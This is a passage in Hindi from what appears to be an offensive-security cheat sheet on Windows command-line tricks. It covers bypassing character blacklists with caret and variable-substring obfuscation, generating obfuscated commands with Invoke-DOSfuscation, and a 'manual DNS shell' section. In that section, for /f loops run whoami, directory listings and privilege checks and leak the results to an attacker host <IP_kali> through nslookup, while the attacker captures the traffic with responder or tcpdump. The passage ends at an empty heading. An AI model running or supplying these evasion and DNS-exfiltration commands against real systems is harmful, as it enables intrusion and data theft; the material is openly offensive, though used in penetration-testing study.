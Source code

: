 ### चार ब्लैकलिस्टिंग को अनदेखा करें

चार ब्लैकलिस्टिंग को अनदेखा करने के लिए तकनीक का उपयोग करें।
```bash
echo %HOMEPATH:~6,-11%   #\
who^ami   #whoami
```
### DOSfuscation

CMD लाइन को गोपनीयता बनाए रखने के लिए एक अस्पष्टिकरणित CMD लाइन उत्पन्न करता है।
```powershell
git clone https://github.com/danielbohannon/Invoke-DOSfuscation.git
cd Invoke-DOSfuscation
Import-Module .\Invoke-DOSfuscation.psd1
Invoke-DOSfuscation
help
SET COMMAND type C:\Users\Administrator\Desktop\flag.txt
encoding
```
### सुनें पता ACLs

आप व्यवस्थापक के बिना [http://+:80/Temporary\_Listen\_Addresses/](http://+/Temporary\_Listen\_Addresses/) पर सुन सकते हैं।
```bash
netsh http show urlacl
```
### मैनुअल DNS शैल

**हमलावर** (काली) को इन दो विकल्पों में से एक का उपयोग करना होगा:
```bash
sudo responder -I <iface> #Active
sudo tcpdump -i <iface> -A proto udp and dst port 53 and dst ip <KALI_IP> #Passive
```
#### पीड़ित

_**for /f tokens**_ \_\*\*\_तकनीक: यह हमें कमांड चलाने, प्रत्येक पंक्ति के पहले X शब्द प्राप्त करने और इसे DNS के माध्यम से हमारे सर्वर पर भेजने की अनुमति देता है
```
for /f %a in ('whoami') do nslookup %a <IP_kali> #Get whoami
for /f "tokens=2" %a in ('echo word1 word2') do nslookup %a <IP_kali> #Get word2
for /f "tokens=1,2,3" %a in ('dir /B C:\') do nslookup %a.%b.%c <IP_kali> #List folder
for /f "tokens=1,2,3" %a in ('dir /B "C:\Program Files (x86)"') do nslookup %a.%b.%c <IP_kali> #List that folder
for /f "tokens=1,2,3" %a in ('dir /B "C:\Progra~2"') do nslookup %a.%b.%c <IP_kali> #Same as last one
#More complex commands
for /f "tokens=1,2,3,4,5,6,7,8,9" %a in ('whoami /priv ^| findstr /i "enable"') do nslookup %a.%b.%c.%d.%e.%f.%g.%h.%i <IP_kali> #Same as last one
```
आप आउटपुट को भी **रीडायरेक्ट** कर सकते हैं, और फिर उसे **पढ़** सकते हैं।
```
whoami /priv | finstr "Enab" > C:\Users\Public\Documents\out.txt
for /f "tokens=1,2,3,4,5,6,7,8,9" %a in ('type "C:\Users\Public\Documents\out.txt"') do nslookup %a.%b.%c.%d.%e.%f.%g.%h.%i <IP_kali>
```
## C कोड से CMD को बुलाना
